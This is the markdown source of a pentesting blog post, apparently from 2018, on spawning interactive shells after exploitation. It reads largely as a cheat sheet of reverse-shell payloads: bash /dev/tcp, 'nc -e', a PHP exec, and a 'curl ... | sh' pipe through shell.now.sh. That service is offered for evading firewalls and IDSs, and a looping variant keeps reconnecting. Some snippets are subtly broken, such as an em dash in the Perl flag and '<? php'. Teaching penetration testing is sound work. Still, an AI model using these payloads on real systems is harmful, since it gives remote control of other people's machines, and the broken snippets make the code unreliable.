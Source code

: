 ```yaml
---
title:    "Post-Exploitation: spawning a shell"
date:     2018-12-05
tags:     hacking tip
category:	Cybersecurity
comment:  sizes are 2000x750
header:
  image:    assets/images/2018-12-05-post-exploitation-spawning-shell/header.jpg
  teaser:   assets/images/2018-12-05-post-exploitation-spawning-shell/header.jpg
  caption:  "Photo credit: [**Unsplash**](https://unsplash.com)"
---
```


Once you have gained shell access on a machine, you will often find the prompt
extremely limited, especially if you have used manual exploitation. In these
cases, the shell often cannot perform basic tasks that you would expect from a
fully interactive shell prompt like Bash, or zsh. You will also be unable to run
intensive interactive commands such as the Vim text editor, or ncurses-based
programs.

In those situations, if the system is reasonably standard, you will be able to
quickly get a complete shell prompt by invoking a shell of your liking. I
generally try to spawn Bash, because it's shipped by default in most Linux and
some Unix systems (like macOS). Bash is reasonably powerful, complete, and well
documented. Bash also has additional features, like job control and
tab-completion that will only make your life that much easier as a pentester.

These are my favourite snippets, decreasing to the least favourites (or
difficult to remember).

# Python

Lots of Linux distributions will ship with Python by default. It's also very
easy to read, but being a relatively modern programming language, very outdated
servers might not have it installed.

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

If Python is available, but Bash isn't installed, you can also try to spawn
the Bourne Shell (sh), which is included in even more Unices, but it's a bit
less feature-packed:

```
$ python -c 'import pty; pty.spawn("/bin/sh")'
```

# Perl

If Python is not available, Perl might be. It is much older than Python, and
although it's not very popular anymore, it used to be widely known in Linux
sysadmin circles, and soon would become the programming language of choice for
system administrators.

```
$ perl —e 'exec "/bin/sh";'
```

(As with Python, you can also try Bash).

# Spawning a shell directly

The system you're in might not have Python or Perl, but that doesn't mean you
won't get a shell. You can try simply calling the shell directly from your
session:

```
$ /bin/sh -i
```

# Reverse shells

You can also try to have the victim machine connect back to your computer for a
fully functional Bash shell.

All the following examples require you to have Netcat installed on the
attacker's computer. Then, you can run the following:

```
$ nc -l -p 8080 -vvv
```

This opens port 8080. Keep in mind the victim machine needs to be able to reach
your computer directly. So if you're in the same LAN, this trick will work, but
it will definitely not work behind a NAT without some port-forwarding. `-vvv` is
for added verbosity.

Once the Netcat socket is listening on the attacking machine, we can try the
following snippets on the victim:

## Bash magic

```
$ exec 5<>/dev/tcp/<YOUR_REACHABLE_IP_HERE>/8080
$ cat <&5 | while read line; do $line 2>&5 >&5; done
```

This very helpful [trick](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)
will come in handy especially when the victim's computer does not have Netcat
installed but Bash is present.

## Netcat

Netcat is almost never present on production systems. But it's yet another
option, and it's easy to remember too.

```
$ nc -e /bin/sh <YOUR_REACHABLE_IP_HERE> 8888
```

## PHP with Bash

If the victim is running PHP, chances are high the system has Bash installed as
well. In that case, you can try to make the PHP server run the following line.

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_REACHABLE_IP_HERE>/8080 0>&1'"); ?>
```

## Curl with shell.now.sh

[shell.now.sh](https://github.com/lukechilds/reverse-shell) is a free service
that can help you pivot connections. Being a third party, it might stop working
eventually, but because it is an HTTPS connection, it has better chances of
evading corporate firewalls or even IDSs.

```
$ curl https://shell.now.sh/<YOUR_REACHABLE_IP_HERE>:8080 | sh
```

If you run an invalid command, the shell will exit. To avoid this, you can force
it to keep reconnecting, but this will leave the machine exposed after you
finish pentesting it unless you kill the process or reboot the machine.

```
$ while true; do curl https://shell.now.sh/<YOUR_REACHABLE_IP_HERE>:8080 | sh; done
```

### PHP with shell.now.sh

```
<? php exec("curl https://shell.now.sh/<YOUR_REACHABLE_IP_HERE>:8080 | sh"); ?>
```

# Sources

In no particular order:
- <https://www.gnucitizen.org/blog/reverse-shell-with-bash/>
- <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>
- <https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97>
- <https://netsec.ws/?p=337>
- <https://github.com/lukechilds/reverse-shell>
- <https://gist.github.com/rshipp/eee36684db07d234c1cc>
- <https://gist.github.com/roy4801/ad7146e3a0da80a922ca1dde0afd17b0>
